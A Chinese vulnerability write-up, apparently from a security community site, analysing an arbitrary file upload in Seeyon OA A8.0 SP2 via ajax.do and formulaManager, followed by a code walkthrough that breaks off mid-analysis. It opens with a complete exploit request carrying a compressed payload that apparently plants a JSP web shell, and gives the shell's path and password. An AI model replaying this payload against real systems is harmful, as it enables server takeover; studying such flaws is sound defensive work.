# 致远 OA A8.0 SP2 Ajax.do 调用 formulaManager 任意文件上传漏洞分析 - 先知社区

致远 OA A8.0 SP2 Ajax.do 调用 formulaManager 任意文件上传漏洞分析

- - -

### 致远 OA A8.0 SP2 Ajax.do 调用 formulaManager 任意文件上传漏洞分析

#### 漏洞环境

致远 A8.0 SP2（需要登录）

#### 漏洞利用

```plain
POST /seeyon/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1
Host: 10.0.103.5
Content-Length: 5657
RequestType: AJAX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept: */*
Origin: http://10.0.103.5
Referer: http://10.0.103.5/seeyon/main.do?method=managementMain
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3FFCCA305397F064185937C04ACAB9CF; hostname=10.0.103.5:80; loginPageURL=; login_locale=zh_CN
x-forwarded-for: 127.0.0.1
Connection: close

managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00mV%5Bs%C2%A2J%10%C3%BE%2B%29%C2%9E%C2%92%C3%9A%1C%17Qv%C3%97%C2%A4%C3%B6A%C2%88%22%C2%A8%24%02r%C2%99%C2%93%C3%B3%C3%80e%04d%40%C3%82E%C3%85T%C3%BE%C3%BBi%40%C2%8D%C2%B1%C3%B2%40%C3%A9%C3%B4%C3%B4%C3%B5%C2%9B%C2%AF%7B%C3%A6%C3%9Fw*%C3%B4%C2%A8%C2%87%C2%A4%24%C3%A4%C2%9EZm%C2%B2%C2%B8%24%C2%B6V%C2%A5%C2%98z%60%C3%8E%C3%AB%21%09%C3%AD%C3%BCJG%C2%B6c%C3%90%C2%A1%0A%C2%9C%17%C3%94%3D%C3%A5%C3%A1%C3%9C%C3%8D%C3%82%C2%B4%087%C3%89I%2F%C2%B53%3B%C3%8E%C2%A5%C3%BCZrZ%C2%B9v%C2%81%C3%BDMV%C2%9D%C3%96%05%C2%8ES%02%C2%B2%C2%B3Bn%C2%83%00_%C2%85%1D%C3%AD%C3%93%0C%C3%A7y%13%07%C2%A2%C2%AEnV%21%C3%81%2Fv%11%C3%9C%C3%BC%C2%BDy%C2%A5%3A%C2%9D%C2%9F%3B%C3%AC%C3%98i%C2%9A%C3%BFT%C2%9E%C2%9F%C2%B5%C2%9F%C3%B1%21c%3A%C3%AB%3C%7D%C2%A5%1E%C3%97%C3%B6%C3%96%C3%AE%C2%84%C2%9B%C3%8E%18%C3%B4%1B%230H%C3%B0%C3%AE%C3%A6R%7E%7Brv%C3%B7%C2%A8%16Y%C2%98%C3%B87y%C2%80%09%C3%B9%C3%BBJ%C2%BD%C3%B0%C3%BA%C3%90%15%C3%86%09R%C2%B9%C3%941%C2%B9%C2%AD%C2%9B%2C%06b%C2%9C%06%5E%3C*%3DSI%1D%C2%BE%C3%BF6%13%C3%9A%C2%B5m%C3%BC%29%C2%A7%C3%A1%C3%BE%C3%8D2Q%C2%80yv%C3%AD%26d%C3%A7%09%C3%9F%C3%8B%C3%9C%1EG%C2%AC%C2%AA%C3%BF%26%C2%86%C3%8B%1F%2F%C3%BC2%C2%B0%C2%98%7D%C3%A0%C3%B6%C3%A6%C2%BE%C2%AEr%04O%14%C3%A2%C3%84%C3%8AA%1C%C3%89%C2%B9e%C3%8A%07M%18%04H%C3%90%2Bq%C2%92O%C3%B9%05%C3%91%C2%A7%C3%97ra%C2%9E%C2%B6%7B%C2%91%C3%A4%C3%B6%C3%B4%1D2%C3%85%C2%8DUE%C2%BFy%3F%C2%92V%C2%8B%C2%8D%C3%84%C2%9B%5C%C3%97%C2%8A%C3%B7%C2%A9UqO%C2%8E0%3E%C2%B8%15%C2%97L%05%C2%89%C3%B5%04%C3%9D1U.%C2%9C%C2%AA%5C%C2%A3%C3%8B%C2%9B%12%C3%B1%26z%C3%A5%C2%84%C3%9C%C3%8139%C3%A2%C2%86l%C2%84%0C%C2%94%3A%C2%B1%7E%C2%B4%0B%C3%82%19%3F%C3%9C%C3%8Dx.%C2%9C%C3%85%7B%C3%88%C3%91%C2%A3m%C3%BE3%C3%8EJ%5D%C3%BE%C3%A0%C3%97%3B%C3%82%27J%C2%85%C3%8D%26W%C3%8D%C2%9BH%60%C3%AF%C3%BA6%C2%A3%C2%B3%2F%C2%AA%C3%88%C3%8E%C2%9F%C2%B8%C3%90%3A%C3%B8%7D%C3%99X%C3%B4dmy%C2%98%1F%C3%9C%C2%AE%C2%B8nt%2Bd%C2%8E%C2%BB%C3%88%C2%94%C3%A9Y%22%13o4%C2%A6k%5B%2B%C3%91i%C2%A4%C3%BA%C2%A1%C3%8B%14%C2%AC%18%C3%AE%1A%3FS%C3%AD%C2%ABo%24%C2%8CiK%C3%AB%7E%C3%9A%C3%87%1E%C3%B1%C3%86%12%C2%B1%0C%05j%C3%B0%C3%93Y%C3%92%C3%BC%C2%9F%C3%9B%06K%C2%A6%C3%87%7Cm%C3%83%C3%B2%C2%A7%C2%82%12x%C3%82%28xQ%C2%B9%C3%923%C3%B6%C3%B9%19%07%5D%C2%A6%C3%9D%C2%98%C2%94%C2%A8%C3%A2%18%C3%80%C3%92%C2%87%7D%0D%C2%83_d%C3%90%25btz9%C2%91%C2%B6.%C3%A0%C3%AEM%C2%A2%C3%8D%C2%99%0B%C2%B1%5E%C2%B9%0C%C3%99%3A%C2%A1%C2%98%3E%C3%AF%00%C3%B3%05%09%C2%B1%C2%A9%10%C2%A3K%C3%BB%163%C2%88%C2%90%C3%96mb%C3%94%7B%22%3F%C3%B4%C3%9B%C2%8FKQ8%C3%9C%C3%94%C2%B6%C2%B3X%C3%9E%02%C2%BF%027%C3%96%C2%97N%C3%A5%C2%87s%C2%B5%C3%9F%17%C3%83%C3%88%7FY%C3%93%C3%BE%C2%9C%C2%8F%7C%C3%BC%C3%85%C2%AE%C3%BD%16G%C3%8E%2C%C3%A2%C3%B1%01i%16-%3E%C3%91%27Y%C2%89%C3%A2A%C2%A5%C3%85%C3%A3%C2%A2%C3%86%C3%8E%C2%8E%C3%87%C2%8C%C2%A5%C2%B2%5DO+%C3%B9%2C%C2%92%02%C2%97Y22%C3%9F%C3%A6y%C3%ADSc%C2%A47d%C3%88%C2%B48RH%C2%93w%5B%3F%0F%7C%23%C3%B2z%C3%91%C3%94%C2%AF%19%3Am%0B%C2%83h%C3%8AK%092%C2%95%11%C3%A8o%1B%1E%C3%82%C3%B9%C2%9C%C2%B8%09u%C2%A7%C2%A2%C3%80v%1Da%C2%97%C3%8E%00K%2F%1EdH%0DN%7Er%C2%91%0F%5E%2Chs%C2%AB%C2%A7%00%07%23%C3%9FI%C3%B4%C3%9Ci%C3%8F%C3%86%C3%BF%C2%9A%13%C2%B7v%18%C2%85%C3%94%C2%B5%7Dr6%C3%B2%15Ao%C3%A4%C3%80%C3%91%3A%C2%87%23%3F%C3%A1%C2%AC%C3%AB%C2%B3%1Fu%C2%89%27%04%5B%C3%84%C3%BB%21%3A%C3%AA%C3%95%C2%B9%01%C2%8F%7B%C3%A29%C2%BF%C3%AEo%2B%214%C3%92%0B%0F%C2%B0od%2B5%C2%82%1Ef%19%C2%87%29%C3%88%C3%B4%C2%B3%C3%BE%1C%C3%AA+%5E%C3%85%7D%C3%A6k%16%C2%91e*A%1B%C2%AB%C3%89%C3%A9%00X%C3%A8%C3%BA%C3%88*%C2%9E%01W%C3%B0%C3%B3%C2%B5%C2%8E%09%C3%AD%23c%7F%40-%C2%BF%C2%AE%C3%AB%3B%C3%B5%C3%A4%09%C2%9B%1A%C3%AF%C2%A3%C2%8C%C2%8D%C2%9D%C2%9E%C3%B4l%19%5D%C3%A0%C2%ADt%C3%B0%C2%8C%7E%C3%A9%18%C3%A4%60U%2C%C2%BF%C3%90%C3%A5%C2%B1%C2%BC%C2%BE%C3%84%C3%BE%5B%C3%AC%C2%8E9%2F.%C3%B0%1A%0E%C3%84%C3%91%C2%89%03l%C2%89LOr%12%C2%99%C2%B6%0Cv%0D%5C%C3%B9%C2%96%13%0D%0E*%C3%98%C3%B1%C3%81%C2%89%C3%93%C3%A9%05%3F%1AN%1Cy%C2%B7%C2%99%C2%AA%C3%8Dy%C3%88%C3%B0m%1Cf%01%C3%BDq%C3%94%5BJ%5D%14%23%C2%88%7F%C3%86%C2%B3%C2%AD%C2%B1%5Bx%C2%B8%7B%C3%AA7v%C3%9D%C3%88z%C3%B4%25g%C3%8E5%C3%82%C3%9C%C2%81%7C%C3%9D3G%C3%AB3lz%C3%9F%C2%A4%C2%AF%C3%B2%C3%A6%06M%1F%2F%C3%A5%C3%94%15%02%C2%88%C3%89%C2%AD%C3%9B%C3%9E+%3B%C2%BB%C3%B6%C3%93%C2%9C%1B%C2%81%19%C2%AC%04N%2C%C3%97%C3%98r%C2%8A%3E%0F%C3%9B%C2%B9%12I%C2%80%2F%C3%8C%15BO%C2%9F%C3%8E%C2%B9j%10%0F%C3%A6%C2%8B2C%26%C3%91%C2%A0%C3%B7%C3%97S%C2%A1+%C2%B8%C2%AD%C2%95%C2%AF1i%C2%B8%C3%87%0F%C3%83%C3%85R%C3%97%C3%A0%2CN3%C2%A0%C3%89WW%03%C3%A8%17rh%C3%A3%C2%B6%5C%C2%839t%C2%81%C2%9B%3Cw%C2%98q%C2%8D%25%C3%A0%07%C3%B2*X%C3%8Fbe%C2%AB%00%06%C2%96%C2%B1%C3%9B%C2%B4%C3%B8G%C2%80%09%C3%A4B_%C3%A6%0D%C2%BA0%C3%B3%2C%C3%A0%C3%96t%C3%82%05%C3%A0%C3%AF%C3%89aX%1A%C2%99%01%7D%C2%9C%C2%91%C2%80%03%19X%0C%60%C3%84%C3%B8%1B%C3%85%0C%C3%96%C3%88%C3%A4h%C3%9B%18%C2%94%C2%A2%C2%B0L%C3%B1.%1D%3C%C3%AF%C3%92%C2%ADg.%06%C3%8D%1D%C2%B7%C2%84%19%C2%94%28p%C3%BF%2CJw%C2%A2%1F%C3%AC%C2%91%C2%B4E0%C3%A3j_%C2%92%C3%96%C2%87%C3%9B%C3%B01%2F%C2%93N%1C%C3%A6n%C2%87%1B%C2%AA%C2%A3_%C3%BD%27%C3%ACn%3C%C2%9C%C3%9Dx%C3%87%C3%9F%C3%B6f%C3%BD%5E%C3%A9%C3%B6%7C%C2%B7%C2%B6%C3%9A%C3%87Ek%C3%92.n%C2%8F%7E%3A%C3%AD%2FW%C2%AEV%60%C3%97%5C%C3%85w%C3%B7%C2%AF%C3%94R%1B%C3%BF%C3%B3%C3%A7%C2%95%C2%BA%7B%C2%ACo%C3%AB%C3%8E.%0B%0B%7C%7B%C3%A9%C3%AB%C3%AE%C3%B1%C3%A3%C2%B1%7E%C2%96%40%C2%A4%C3%BA%C2%81%C2%90%17v%11%C2%BA7%C3%BB%C3%BD%C3%BE%C3%B6%C3%AE%1D%C2%9E*x%C2%9Fb%C2%B7%C3%90mR%C2%9E%C3%9F%16%C2%9E%5D%1C%C3%9F%3C%C3%87%C2%97%07%C2%98%C2%9C%17n%C2%86%C3%ADb%C2%93%7DYb-%C2%8C%C3%8F%0Ae%C3%AA%5DI2%0C%09%C3%A3%C3%84%C3%85%C3%A2%C3%B9e%05%C3%95Q%0FEV%C3%A2%3A%C2%81%22%C2%B3%C3%A7vJ%3D%C2%BC%7F%7C%C3%9CS%C3%94%C3%BD%C3%BB%C3%87%7D%C2%BD%C3%B3%C3%9F%C3%BFp%C2%A5%C2%92D%C2%8B%09%00%00
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172922-87ccd534-cfd2-1.png)

天蝎连接 `http://10.0.103.5/mzr2.jsp` `sky`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172928-8b4fd6de-cfd2-1.png)

#### 漏洞分析

通过 EXP 可以知道请求了`ajax.do`这个路由，全局搜索`ajax.do`找到映射的类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172938-918b1234-cfd2-1.png)

跟入到`com.seeyon.ctp.common.service.AjaxController`类中，从请求参数`method=ajaxAction`可以知道调用了`AjaxController`的`ajaxAction`方法，接下来分析`ajaxAction`方法。

```plain
public ModelAndView ajaxAction(HttpServletRequest request, HttpServletResponse response) throws Exception {
        response.setHeader("Pragma", "No-cache");
        response.setHeader("Cache-Control", "no-cache");
        response.setDateHeader("Expires", 0L);
        response.setContentType("application/json; charset=UTF-8");
        String responseCompress = request.getParameter("responseCompress");
        String url = request.getRequestURI();
        String outStr = "";
        outStr = this.invokeService(request, response);
        if (Strings.isNotBlank(request.getParameter("ClientRequestPath"))) {
            outStr = ZipUtil.compressResponse(outStr, responseCompress, "UTF-8", LOGGER);
            outStr = Strings.toHTML(outStr);
        }

        Writer out = response.getWriter();
        out.write(outStr);
        return null;
    }
```

这个方法主要作用是接收一个`responseCompress`，这个参数作用是用于`compressResponse`压缩的方式，然后调用`this.invokeService`方法，在不传入`ClientRequestPath`参数的情况下，对得到的结果进行压缩并返回到前端。

跟入`this.invokeService`中。

```plain
private String invokeService(HttpServletRequest request, HttpServletResponse response) throws BusinessException {
        AppContext.initSystemEnvironmentContext(request, response, false);
        String serviceName = request.getParameter("managerName");
        String methodName = request.getParameter("managerMethod");
        String strArgs = request.getParameter("arguments");
        String compressType = request.getParameter("requestCompress");
        strArgs = ZipUtil.uncompressRequest(strArgs, compressType, "UTF-8", LOGGER);
        String ctpJSONPCallback = request.getParameter("ctpJSONPCallback");
        String retValue = null;
        JSONValue jsonValue = null;

        try {
            long start = System.currentTimeMillis();
            Object service = getService(Strings.escapeJavascript(serviceName));

            Object result;
            try {
                result = this.invokeMethod(service, methodName, strArgs, serviceName);
            } catch (Exception var20) {
                this.logger.error("ajax error,serviceName=" + serviceName + ",methodName=" + methodName + ", strArgs=" + JSONUtil.toJSONString(strArgs), var20);
                throw var20;
            }

            // 忽略了

        return retValue;
    }
```

`invokeService`方法中首先从`request`中接收了`serviceName`、`methodName`、`strArgs`、`compressType`等参数。调用了`ZipUtil.uncompressRequest`对`strArgs`进行解压缩，解压缩的格式为传入的`compressType`。

接着用`serviceName`作为参数调用了`getService`方法，跟入到`getService`方法中

```plain
private static Object getService(String serviceName) throws Exception {
        Object service = AppContext.getBean(serviceName);
        if (service instanceof DataSource || service instanceof Session || service instanceof SessionFactory) {
            service = null;
        }

        if (service == null) {
            Exception e = new Exception("can not find the service: " + serviceName);
            throw e;
        } else {
            return service;
        }
    }
```

这个方法作用就是根据`serviceName`获取到对应类的已经创建好的实例，但是不能随便获取，必须是已经在配置文件中注册过的才能获取到。大概有八百多个都可以直接调用，但所包含的类中的父类及以上类不能是`DataSource`、`Session`、`SessionFactory`三个类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172951-996bc462-cfd2-1.png)

请求体传入的为`managerName=formulaManager`，所获取到的对象就为`formulaManager`类的实例。

接着返回到`invokeService`方法中。

在`122`行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172959-9e38aed8-cfd2-1.png)

调用了`this.invokeMethod(service, methodName, strArgs, serviceName)`，从方法名大概就猜得到到反射调用了`service`类的`methodName`方法。

跟入`this.invokeMethod`

```plain
private Object invokeMethod(Object service, String methodName, String strArgs, String serviceName) throws Exception {
        Object result = null;
        if (strArgs == null || "".equals(strArgs) || "undefined".equals(strArgs)) {
            strArgs = "[]";
        }
        // json 转 object
        Object obj = JSONUtil.parseJSONString(strArgs);
        Object l;
        // 判断 obj 是否为 List 子类
        if (obj instanceof List) {
            l = (List)obj;
        } else {
            l = new ArrayList();
            ((List)l).add(obj);
        }

        int argsNum = ((List)l).size();
        Map data = null;
        String key = serviceName + "_" + methodName + "_" + argsNum;
        // 根据 serviceName_methodName_argsNum 为键名获取方法的缓存
        List<MethodCache> list = (List)this.candidateMethodCache.get(key);
        boolean isFromCache = true;
        // 如果获取到缓存  将传入的参数 list 和获取到的方法列表作为参数调用 findMethodAndArgs
        if (list != null) {
            // 
            data = this.findMethodAndArgs((List)l, (List)list);
        }

        if (data == null || data.size() == 0) {
            isFromCache = false;
            data = this.findMethodAndArgs((List)l, this.judgeCandidate(service, methodName, argsNum));
        }

        if (data != null && data.size() > 0) {
            Method target = (Method)data.get("method");
            final Object[] args = (Object[])((Object[])data.get("args"));
            if (target != null) {
                try {
                    if (logAjax.isDebugEnabled()) {
                        User user = AppContext.getCurrentUser();
                        logAjax.debug(serviceName + "," + methodName + "," + this.hasMemberId(args) + "," + user.isAdministrator() + "," + user.isAuditAdmin() + "," + user.isSystemAdmin() + "," + user.isGroupAdmin() + "," + AppContext.currentUserLoginName() + "," + strArgs);
                    }
                } catch (Exception var19) {
                }

                if (list == null) {
                    list = new ArrayList();
                    this.candidateMethodCache.put(key, list);
                }

                if (!isFromCache) {
                    ((List)list).add(new MethodCache(target));
                }
                // 反射调用方法
                result = target.invoke(service, args);
                CTPRequestContext context = (CTPRequestContext)AppContext.getThreadContext("CTPHandlerInterceptor.context");
                Class clazz = AopProxyUtils.ultimateTargetClass(service);
                if (AspectManager.withParameters(clazz, methodName)) {
                    final HashMap map;
                    if (context != null) {
                        map = new HashMap(context.getRequest().getParameterMap());
                    } else {
                        map = new HashMap();
                    }

                    AspectContext ctx = new AbstractAspectContext(AspectManager.getSourceName(clazz, methodName), SourceType.Ajax, AppContext.getCurrentUser()) {
                        private Object[] arguments = args;

                        public Object getParameter(String name) {
                            return map.get(name);
                        }

                        public Object getParameter(int index) {
                            return this.arguments[index];
                        }
                    };
                    AspectManager.initContext(ctx);
                }

                AspectManager.execute(clazz, methodName);
                return result;
            }
        }

        String errStr = "can not find the method [" + methodName + "], which has " + argsNum + " arguments.";
        NoSuchMethodException ex = new NoSuchMethodException(errStr);
        throw ex;
    }
```

这个方法中，首先将传入的`strArgs`参数解析成了`Object`对象，接着判断这个对象是否为`List`子类的实例，是的话会将`Object`强制转换成`List`对象，否则就会创建一个`ArrayList`对象。然后将传入的 Object 添加到`ArrayList`中。

经接着会`serviceName + "_" + methodName + "_" + argsNum`作为键值在`this.candidateMethodCache`中获取已经缓存的方法。如果获取到则会将传入的`strArgs`和调用`this.candidateMethodCache.get(key)`的返回值作为参数调用`this.findMethodAndArgs((List)l, (List)list)`。

如果缓存中没有获取到对应的方法，那么会调用`this.judgeCandidate(service, methodName, argsNum)`方法反射获取到对应的方法。

接着，跟入`this.findMethodAndArgs`方法

```plain
private Map findMethodAndArgs(List paramObject, List<MethodCache> candidateMethods) {
        Map data = new HashMap();
        Method targetMethod = null;
        Object[] args = null;
        Iterator var6 = candidateMethods.iterator();

        while(var6.hasNext()) {
            MethodCache cache = (MethodCache)var6.next();
            Method method = cache.getMethod();
            Class[] argTypes = cache.getParameterTypes();
            args = new Object[argTypes.length];

            try {
                for(int i = 0; i < argTypes.length; ++i) {
                    Object param = paramObject.get(i);
                    if (String.class.equals(argTypes[i])) {
                        args[i] = ObjectUtils.defaultIfNull(param, "");
                    } else if (Date.class.equals(argTypes[i])) {
                        if (param != null) {
                            String str = param.toString();
                            if (Strings.isDigits(str.substring(0, 1))) {
                                str = "\"" + str + "\"";
                            }

                            args[i] = JSONUtil.parseJSONString(str, argTypes[i]);
                        } else {
                            args[i] = null;
                        }
                    } else if (Map.class.equals(argTypes[i]) && param instanceof Map) {
                        args[i] = param;
                    } else if (param instanceof String && !String.class.equals(argTypes[i])) {
                        args[i] = JSONUtil.parseJSONString(param == null ? null : param.toString(), argTypes[i]);
                    } else {
                        args[i] = JSONUtil.parseJSONString(param == null ? null : JSONUtil.toJSONString(param), argTypes[i]);
                    }
                }
            } catch (Exception var13) {
                LOGGER.warn(var13.getLocalizedMessage(), var13);
                continue;
            }

            data.put("method", method);
            data.put("args", args);
            break;
        }

        return data;
    }
```

`candidateMethods`列表保存的为根据特定条件或者是缓存中获取到的方法集合，这个方法的作用其实就是从`candidateMethods`列表中，根据传入的`paramObject`参数列表获取到对应的方法和参数值，会根据参数的值解析成对应的对象。

接着在 464 行 执行了反射调用

